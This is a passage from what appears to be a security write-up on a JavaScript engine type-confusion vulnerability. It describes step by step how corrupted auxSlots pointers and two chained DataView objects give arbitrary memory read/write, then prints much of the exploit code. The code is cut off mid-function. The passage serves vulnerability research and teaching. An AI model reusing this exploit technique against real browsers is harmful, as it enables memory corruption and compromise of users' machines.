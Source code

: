 1. Trigger the vulnerability to set ‘o’ auxSlots to ‘obj’ (opt(o, cons, obj);).
2. ‘o’ sets ‘obj’ auxSlots to the first DataView (o.c = dv1;).
3. ‘obj’ sets the first DataView (‘dv1’) buffer field to the next DataView object (obj.h = dv2;).
4. Use the first DataView object ‘dv1’ to set the buffer field of the second DataView object ‘dv2’ to your address of choice. (dv1.setUint32(0x38, 0xDEADBEEF, true); dv1.setUint32(0x3C, 0xDEADBEEF, true);). Notice how we write our chosen address (0xDEADBEEFDEADBEEF) to the exact offset (0x38) of the buffer field of ‘dv2’.
5. You can use second DataView object (‘dv2’) to read\write our chosen address (dv2.getUint32(0, true); dv2.getUint32(4, true);).  
We repeat steps 4 and 5 for every read\write we want to perform.


And here is the full R\W primitive code:



```javascript
*// commit 331aa3931ab69ca2bd64f7e020165e693b8030b5*
obj = {}
obj.a = 1;
obj.b = 2;
obj.c = 3;
obj.d = 4;
obj.e = 5;
obj.f = 6;
obj.g = 7;
obj.h = 8;
obj.i = 9;
obj.j = 10;

dv1 = **new** DataView(**new** ArrayBuffer(0x100));
dv2 = **new** DataView(**new** ArrayBuffer(0x100));

BASE = 0x100000000;

**function** hex(x) {
    **return** "0x" + x.toString(16);
}

**function** opt(o, c, value) {
    o.b = 1;

    **class** A **extends** c {}

    o.a = value;
}

**function** main() {
    **for** (**let** i = 0; i < 2000; i++) {
        **let** o = {a: 1, b: 2};
        opt(o, (**function** () {}), {});
    }

    **let** o = {a: 1, b: 2};
    **let** cons = **function** () {};

    cons.prototype = o;

    opt(o, cons, obj); *// o->auxSlots = obj (Step 1)*
    
    o.c = dv1; *// obj->auxSlots = dv1 (Step 2)*
    
    obj.h = dv2; *// dv1->buffer = dv2 (Step 3)*
    
    **let** read64 = **function**(addr\_lo, addr\_hi) {
        *// dv2->buffer = addr (Step 4)*
```